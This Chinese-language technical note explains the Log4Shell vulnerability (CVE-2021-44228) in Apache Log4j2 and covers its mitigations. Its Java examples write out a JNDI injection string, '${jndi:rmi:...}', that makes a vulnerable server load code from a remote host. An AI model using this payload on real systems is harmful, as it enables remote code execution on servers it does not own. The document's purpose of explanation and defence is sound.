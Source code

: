 > log4j2的历史重大漏洞（通常称为“Log4Shell”）主要受到了lookup功能的影响。这个漏洞，标识为CVE-2021-44228，影响了2.0-beta9到2.14.1版本的Apache log4j2库。该漏洞存在于log4j2的JNDI特性中，允许通过特制的日志消息执行远程代码，这是由于log4j2的lookup功能过于灵活，特别是它支持从外部源（如LDAP服务器）动态加载数据。
>
> Lookup功能允许开发人员在日志配置中使用变量，这些变量可以在运行时解析。在Log4Shell漏洞中，攻击者可以通过发送包含恶意LDAP URL的日志消息来利用这一点。log4j2在处理这些特殊构造的消息时会尝试从提供的URL中获取数据，这可能导致执行攻击者控制的代码。因此，该漏洞极大地影响了使用受影响版本的log4j2的系统的安全。

name 变量是用户输入的，用户输入什么都可以，上面的例子是字符串 test，那么用户是否可以输入特殊内容？

```java
public void login(String name) {
    String name = "${java:os}"; // 用户输入的name内容为 ${java:os}
    logger.info("{},登录了", name); // logger由log4j提供
}
```

如果用户输入的是 ${java:os}，那么日志中记录的会是系统相关的信息。

这种奇怪的现象是因为 log4j 提供了 lookup 的功能，lookup 功能简单来说就是可以把一些系统变量放到日志中。非常类似 SQL 注入。

**JNDI 介绍**

一个服务：jndi:rmi:192.168.9.23:1099/remote

如果被攻击的服务器，比如某台线上服务器，访问或执行了 JNDI 服务，那么线上服务器就会执行 JNDI 服务中的 remote 方法的代码。

如果用户输入的是 JNDI 的服务器地址 ${jndi:rmi:192.168.9.23:1099/remote}

```java
public void login(String name) {
    String name = "${jndi:rmi:192.168.9.23:1099/remote}"; // 用户输入的name内容为 jndi 相关信息
    logger.info("{},登录了", name); // logger由log4j提供
}
```

只要用 log4j 来打印该日志，那么 log4j 就会执行 jndi:rmi:192.168.9.23:1099/remote 服务，线上服务器可以被 jndi 服务中的恶意代码操作。

**解决方式**

解决方式有以下几个：

- 禁用 lookup 服务或 JNDI 服务

  lookup 和 JNDI 是导致漏洞的根本原因，可以修改配置 log4j2.formatMsgNoLookups=True 或禁用 JNDI 服务。

- 升级 Apache Log4j

  影响范围主要是 Apache Log4j 2.x <= 2.14.1，升级 Log4j 版本即可。



## 2. 参考资料

[Log4j2日志记录框架的使用教程与简单实例](https://blog.csdn.net/pan_junbiao/article/details/104313938)

[log4j2配置文件模板（带详细注释）](https://blog.csdn.net/yucaifu1989/article/details/124988933)

[一文带你彻底掌握Log4j2](https://www.cnblogs.com/antLaddie/p/15904895.html)

[log4j2 的使用【超详细图文】](https://blog.csdn.net/weixin_32265569/article/details/110723441)

[Log4j 2官方文档中文翻译](https://huanio.gitbooks.io/doc-log4j-2/content/)